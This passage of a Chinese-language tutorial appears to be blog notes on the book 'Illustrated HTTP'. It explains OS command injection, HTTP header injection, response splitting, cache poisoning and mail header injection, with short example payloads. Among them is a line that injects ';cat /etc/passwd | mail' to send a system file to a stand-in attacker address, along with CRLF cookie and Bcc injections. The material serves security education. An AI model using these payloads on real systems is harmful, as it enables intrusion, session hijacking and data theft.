 #### OS注入攻击案例
![OS注入攻击](/Blog/images/HTTP图解/11OS注入攻击.png)  
攻击者将下面的值作为邮件地址：
```shell
;cat /etc/passwd | mail hack@example.jp
```
程序接收该值，构成以下的命令组合。
```shell
| /usr/sbin/sendmail ;cat /etc/passwd | mail hack@example.jp
```
攻击者的输入值中含有分号（;）。这个符号在OS命令中，会被解析为分隔多个执行命令的标记。

### 2.4 HTTP首部注入攻击
HTTP首部注入攻击是指攻击者通过在响应首部字段内插入换行，添加任意响应首部或主体的一种攻击，属于被动攻击。

向首部主体内添加内容的攻击称为HTTP响应截断攻击。

造成的影响：  
- 设置任何Cookie信息
- 重定向至任意URL
- 显示任意的主体（HTTP响应截断攻击）

#### HTTP首部注入攻击案例
![HTTP首部注入](/Blog/images/HTTP图解/11HTTP首部注入.png)  
攻击者以下面的内容替换之前的类别ID后发送请求：
```
101%0D&0ASet-Cookie:+SID=123456789
```
%0D&0A代表HTTP报文中的换行符，然后是可强制将攻击者网站的会话ID设置成SID=123456789的Set-Cookie首部字段。因此攻击者可指定修改任意的Cookie信息。通过和会话固定攻击攻击组合，攻击者可伪装成用户。

攻击者输入的%0D&0A，本来应该属于首部字段Location的查询部分，但经过解析后，变成了换行符，结果插入了新的首部字段。这样，攻击者可以在响应中插入任意的首部字段。

#### HTTP响应截断攻击
HTTP响应截断攻击是用在HTTP首部注入的一种攻击。攻击顺序相同，但要将两个%0D%0A%0D%0A并排插入字符串后发送。利用这两个连续的换行就可作出HTTP首部与主体分隔所需的空行了。这样就能显示伪造的主体，达到攻击目的。
```
%0D%0A%0D%0A<HTML><HEAD><TITLE>kdkdskdkfdkk
```
注入后返回结果得到以下这种响应：
![HTTP首部主体注入](/Blog/images/HTTP图解/11HTTP首部主体注入.png)  
利用这个攻击，已触发陷阱的用户浏览器会显示伪造的Web页面，再让用户输入自己的个人信息等，可达到和跨站脚本攻击相同的效果。

另外，滥用HTTP/1.1中汇集多响应返回功能，会导致缓存服务器对任意内容进行缓存操作。这种攻击称为**缓存污染**。使用该缓存服务器的用户，在浏览遭受攻击的网站时，会不断的浏览被替换掉的Web网页。

### 2.5 邮件首部注入攻击
邮件首部注入是指Web应用中的邮件发送功能，攻击者通过向邮件首部To或Subject内任意添加非法内容发起的攻击。利用存在安全漏洞的Web网站，可对任意邮件地址发送广告邮件或病毒邮件。

![邮件首部注入攻击](/Blog/images/HTTP图解/11邮件首部注入攻击.png)  
```
bob@hacker.jp%0D%0ABcc:user@example.com
```
一旦咨询表单所在的Web应用接收了这个换行符，就可能实现对Bcc邮件地址的追加发送。
